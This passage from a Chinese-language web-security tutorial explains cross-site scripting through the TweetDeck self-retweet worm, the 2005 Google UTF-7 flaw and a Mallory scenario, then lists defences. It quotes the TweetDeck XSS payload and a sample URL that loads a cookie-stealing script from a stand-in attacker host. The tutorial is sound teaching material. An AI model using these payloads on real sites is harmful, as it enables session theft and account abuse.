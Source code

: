 [Twitter XSS漏洞](http://www.zdnet.com/article/tweetdeck-wasnt-actually-hacked-and-everyone-was-silly/)：一个tweet会被所有使用TweetDeck应用的关注者自动retweet。

```javascript
<script
class="xss">$('.xss').parents().eq(1).find('a')
.eq(1).click();$('[data-
action=retweet]').click();alert('XSS in
Tweetdeck')</script>
```

### 4.2 反射XSS

[Google.com UTF-7 XSS漏洞](http://www.securiteam.com/securitynews/6Z00L0AEUE.html)：2005年，两个Google.com上的XSS漏洞允许攻击者来伪装为Google的合法用户或实施一个钓鱼攻击，尽管Google已经采用了防范XSS的机制。

Google的URL重定向脚本将浏览器重Google重定向到其他网站，例如：`http://www.google.com/url?q=http://www.foo.com`，将重定向到`www.foo.com`。

当参数`q`格式错误时，返回`403 Forbidden`网页，该网页包含用户URL信息:

`Your client does not have permission to get URL /url?q=USER_INPUT from this server.`。

当网页不存在时，返回404网页包含不存在的URL的信息:

`Not Found The requested URL /NOTFOUND was not found on this server.`

Google服务器应答中缺乏字符集编码要求：

```
* Response headers: "Content-Type: text/html; charset=[encoding]".
* Response body: "<meta http-equiv="Content-Type" (...) charset=[encoding]/>".
```

XSS漏洞：当包含有问题URL时，Google会将XSS中常用字符进行转义，例如`<>`和`'`，但没有正确处理有威胁的UTF-7编码负载。当攻击者用UTF-7编码发送XSS攻击负载时，负载会随着应答被反射。

一个类似的例子：

1. Alice访问一个Bob的网站。Bob网站允许Alice用用户名/口令来登录并存储敏感数据，例如账单信息。当用户登录，浏览器保存授权Cookie。
- Mallory测试Bob网站是否包含一个反射XSS漏洞：
	1. 当Mallory访问Search页时，她在搜索框中输入搜索项并点击提交按钮。当搜索结果不存在时，网页显示搜索项不存在，`http://bobssite.org?q=search-term`
	2. 当提交一个异常搜索时，观察网站行为
		1. 例如所搜`<script type='text/javascript'>alert('xss');</script>`
		2. 漏洞会导致弹出一个警告窗口显示`xss`，网页显示“上述URL not found” 
- Mallory可利用该漏洞构造一个URL，其中恶意脚本在Mallory网站上
	1. 恶意URL：`http://bobssite.org?q=puppies<script%20src="http://malloryssite.com/authstealer.js"></script>`
	2. Mallory给Bob网站用户Alice发送电子邮件，包含上述恶意URL链接
- Alice收到邮件，点击链接，打开Bob网站，在浏览器上载入恶意脚本，盗取了Alice的Cookie

### 4.3 防御

- 对字符串输入进行上下文输出编码/转义：参考[OWASP的XSS防御手册](https://www.owasp.org/index.php/XSS_%28Cross_Site_Scripting%29_Prevention_Cheat_Sheet)
	1. 禁止在未允许的位置插入不可信数据，例如
		- 脚本中：`<script>...</script>` 
		- HTML元素：`<!-- ... -->`
		- attribute名：`<div ... =test />`
		- Tag名：`<... href="/test" />`
		- CSS：`<style> ... </style>`
	- 使用现成的编码/转义库和函数，	例如HTML转义函数会自动实现`& --> &amp`, `" --> &quot`, `' --> &#x27`, `< --> &lt`, `/ --> &#x2F`等等
- Cookie安全：许多XSS攻击目标是窃取Cookie，为此需要将强Cookie安全
	- 将会话cookie与用户登录时IP地址绑定，只允许从该IP地址来访问cookie
	- 一些浏览器支持cookie的[HttpOnly标记](https://en.wikipedia.org/wiki/HTTP_cookie#HttpOnly_cookie)功能，客户端脚本禁止访问设置了HttpOnly标记的cookie
- 禁用脚本，例如在[Go Static or Go Home (ACM Queue 2015)](http://queue.acm.org/detail.cfm?id=2721993)文章指出“In the end, dynamic systems are simply less secure.”
- Javascript沙箱